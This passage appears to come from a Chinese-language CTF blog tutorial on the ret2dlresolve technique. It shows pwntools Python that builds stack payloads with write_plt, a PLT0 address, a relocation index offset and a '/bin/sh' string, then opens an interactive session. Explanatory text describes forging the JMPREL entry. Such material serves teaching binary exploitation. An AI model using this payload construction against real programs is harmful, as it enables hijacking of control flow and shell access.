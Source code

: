 ```python

p.sendline(payload)

cmd = b"/bin/sh"
payload2  = b'AAAA'
payload2 += p32(write_plt) # write(1, cmd_addr, len(cmd))
payload2 += b'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += b'A' * (80 - len(payload2))
payload2 += cmd + b'\x00'
payload2 += b'A' * (100 - len(payload2))

pause()
p.sendline(payload2)

p.interactive()
```



#### Stage 2

Stage2 把 write_plt 中的指令分解出来。

![image-20221027173616473](https://up-wind.github.io/assets/2022-10-24-ret2dlresolve/image-20221027173616473.png)

第一条指令为跳转 write_got，此处略过。

第二条指令 0x20 是 write 函数的重定位表项在 JMPREL 重定位表中的偏移量（0x08048338-0x08048318），此处直接放入栈中，后续会对表项进行伪造。

![image-20221027174101821](https://up-wind.github.io/assets/2022-10-24-ret2dlresolve/image-20221027174101821.png)

```python
···
cmd = b"/bin/sh"
plt_0 = 0x8048370
index_offset = 0x20

payload2  = b'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset) # 数值为 0x20
payload2 += b'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += b'A' * (80 - len(payload2))
payload2 += cmd + b'\x00'
payload2 += b'A' * (100 - len(payload2))
···
```

